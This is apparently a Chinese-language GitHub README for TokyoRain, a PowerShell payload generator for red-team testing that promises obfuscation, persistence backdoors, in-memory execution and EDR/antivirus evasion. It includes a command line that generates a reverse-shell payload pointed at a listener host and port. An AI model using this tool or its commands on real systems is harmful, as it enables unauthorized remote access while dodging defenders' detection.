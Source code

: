 # TokyoRain

[![GitHub stars](https://img.shields.io/github/stars/9Insomnie/TokyoRain?style=social)](https://github.com/9Insomnie/TokyoRain/stargazers)
[![License](https://img.shields.io/github/license/9Insomnie/TokyoRain)](https://github.com/9Insomnie/TokyoRain/blob/main/LICENSE)

---

## 项目简介

**TokyoRain** 是一款专注于生成隐蔽、混淆强且具有多种规避能力的 PowerShell 载荷的工具，适用于红队渗透测试和攻击模拟。该项目致力于帮助安全研究人员绕过终端检测与响应（EDR）、杀毒软件和防火墙，提升渗透效果和隐蔽性。

灵感来自东京的细雨，TokyoRain 载荷如同细雨般隐秘，悄无声息地渗透目标系统。

---

## 核心功能

* **多重混淆技术**：对 PowerShell 脚本进行多层混淆，防止静态分析和签名检测。
* **多种载荷模板**：支持反向Shell、命令执行、持久化后门等多种载荷类型。
* **内存执行支持**：支持将载荷直接注入内存执行，降低磁盘痕迹。
* **自动化参数配置**：通过命令行参数灵活配置攻击载荷（目标IP、端口、类型等）。
* **主流 EDR/AV 规避**：集成多种已知规避手法，提升攻击成功率。
* **兼容性强**：支持 Windows PowerShell 5.1 及以上版本，兼容多数企业环境。

---

## 环境要求

* Windows 系统
* PowerShell 5.1 及以上版本
* Git（用于克隆项目）

---

## 安装步骤

1. 克隆仓库到本地：

   ```bash
   git clone https://github.com/9Insomnie/TokyoRain.git
   cd TokyoRain
   ```

2. 确保 PowerShell 环境可用（Windows 默认自带）。

---

## 使用说明

### 基础用法

生成默认配置的 PowerShell 载荷文件：

```powershell
.\TokyoRain.ps1 -GeneratePayload -OutputPath ./payload.ps1
```

### 参数详解

| 参数                 | 说明                  | 示例               |
| ------------------ | ------------------- | ---------------- |
| `-GeneratePayload` | 生成载荷                | 必填               |
| `-OutputPath`      | 输出载荷的文件路径           | `./payload.ps1`  |
| `-Type`            | 载荷类型（ReverseShell等） | `ReverseShell`   |
| `-Lhost`           | 监听IP（反向连接目标IP）      | `192.168.1.100`  |
| `-Lport`           | 监听端口                | `4444`           |
| `-Obfuscate`       | 是否启用混淆（默认启用）        | `true` 或 `false` |
| `-MemoryExecution` | 是否支持内存执行            | `true` 或 `false` |

### 生成反向Shell示例

```powershell
.\TokyoRain.ps1 -GeneratePayload -Type ReverseShell -Lhost 192.168.1.100 -Lport 4444 -OutputPath ./rev_shell.ps1
```

### 查看帮助

```powershell
.\TokyoRain.ps1 -Help
```

---

## 注意事项

* 请确保您有合法授权后使用本工具，禁止未授权的攻击行为。
* 运行载荷时可能触发杀软报警，建议在测试环境验证。
* 载荷混淆级别越高，生成时间可能稍长。
* PowerShell执行策略可能限制脚本运行，建议调整为合适的执行策略，如 `RemoteSigned`。

---

## 贡献指南

欢迎贡献代码、报告问题或提出功能建议！
请先阅读并遵守 [行为准则](CODE_OF_CONDUCT.md) 和 [贡献指南](CONTRIBUTING.md)。

---

## 许可证

本项目采用 MIT 许可证，详见 [LICENSE](LICENSE) 文件。

---

## 免责声明

本项目仅限授权渗透测试和红队演练使用，严禁非法使用。使用者需对自身行为负责，造成的任何后果与项目作者无关。
